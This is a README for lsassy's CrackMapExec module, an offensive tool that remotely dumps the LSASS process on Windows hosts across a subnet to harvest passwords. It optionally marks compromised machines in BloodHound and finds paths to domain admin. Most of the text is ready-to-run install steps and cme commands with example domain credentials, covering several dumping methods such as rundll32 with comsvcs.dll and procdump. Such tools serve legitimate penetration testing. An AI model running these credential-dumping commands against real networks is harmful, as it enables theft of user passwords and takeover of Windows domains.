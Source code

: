 # lsassy CrackMapExec Module

![CrackMapExec >= 4.0.1](https://img.shields.io/badge/CrackMapExec-%3E=4.0.1-red)

This CME module uses **lsassy** to remotely extract lsass password, and optionally interacts with Bloodhound to **set compromised hosts as owned** and check if compromised users have a **path to domain admin**.

![CME Module example](/assets/example.png)

## Requirements

* Python2.7
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* Python3.6+
  - [lsassy](https://github.com/Hackndo/lsassy/)


## Installation

* Clone git repo

From SSH: (Need Github account with ssh key)
```bash
git clone git@github.com:Hackndo/lsassy.git
```
From Https: (Without Github account)
```bash
git clone https://github.com/Hackndo/lsassy.git
```

* Copy `lsassy.py` in `[CrackMapExec Path]/cme/modules`
* Patch CrackMapExec file `cme > modules > smb > wmiexec.py` in `execute_handler` function: Replace `self.execute_fileless(data)` with `self.execute_remote(data)`. We need procdump output to be totally retrieved. This won't break anything in CME.
* Reinstall CrackMapExec using python2.7 `python setup.py install`

```bash
cd lsassy/cme
cp lsassy.py /opt/CrackMapExec/cme/modules/
cd /opt/CrackMapExec
python setup.py install
```

## Usage

### Basic

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

### Advanced

By default, this module uses rundll32.exe with comsvcs.dll DLL to dump lsass process on the remote host, with method "1" of lsassy.

If you want to specify the dumping method, use the `METHOD` option (`lsassy -h` for more details)

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o METHOD=2 PROCDUMP_PATH=/opt/Sysinternals/procdump.exe
```

If you're using a method that requires procdump, you can specify procdump location with `PROCDUMP_PATH` option.

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o METHOD=3 PROCDUMP_PATH=/opt/Sysinternals/procdump.exe
```

By default, lsass dump name is randomly generated. If you want to specify a dump name, you can use `REMOTE_LSASS_DUMP` option.

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o REMOTE_LSASS_DUMP=LSASSY_DUMP.dmp
```

### BloodHound

You can set BloodHound integration using `-o BLOODHOUND=True` flag. This flag enables different checks :
* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a **path to domain admin**

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            METHOD              Method to use to dump procdump with lsassy. See lsassy -h for more details
            REMOTE_LSASS_DUMP   Name of the remote lsass dump (default: Random)
            PROCDUMP_PATH       Path to procdump on attacker host. If this is not set, "rundll32" method is used
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')
            WITHOUT_EDGES       List of black listed edges (example: 'SQLAdmin,CanRDP', default: '')

```

## Issue

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

Have fun

